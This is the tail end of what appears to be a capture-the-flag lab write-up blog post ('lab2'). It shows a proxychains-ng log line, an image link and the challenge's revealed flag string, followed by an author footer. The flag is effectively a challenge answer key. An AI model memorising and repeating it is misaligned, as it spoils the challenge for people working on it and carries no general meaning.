[proxychains] DLL init: proxychains-ng 4.17
```



flag：go-flag{uhzy7lknuXsJtB3Z}

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/lab2/  

